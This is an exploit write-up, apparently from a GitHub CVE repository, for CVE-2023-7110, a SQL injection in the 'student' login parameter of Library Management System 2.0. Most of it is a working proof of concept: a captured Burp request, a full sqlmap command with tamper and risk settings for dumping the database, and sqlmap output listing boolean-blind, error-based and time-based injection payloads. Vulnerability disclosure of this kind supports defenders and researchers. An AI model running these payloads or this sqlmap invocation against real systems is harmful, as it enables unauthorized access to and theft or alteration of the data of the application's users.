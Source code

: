 # CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Exploit Title:** CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7110

## References: 
+ **CVE-2023-7110:** https://vuldb.com/?id.249005
+ https://www.cve.org/CVERecord?id=CVE-2023-7110

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'student' in "/libsystem/login.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the student login panel: "http://localhost/libsystem/login.php"
+ Fill the student id then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 302
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/libsystem/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

student=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: student (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: student=test' OR NOT 8837=8837-- xdiM&login=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: student=test' AND (SELECT 9935 FROM(SELECT COUNT(*),CONCAT(0x7162627671,(SELECT (ELT(9935=9935,1))),0x716a7a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- pYgV&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=test' AND (SELECT 5778 FROM (SELECT(SLEEP(5)))XMIO)-- jzYc&login=
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:29:49] [INFO] fetching current database
[12:29:49] [INFO] retrieved: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/f6d52d8d-69a3-4915-a235-3126417374ec)

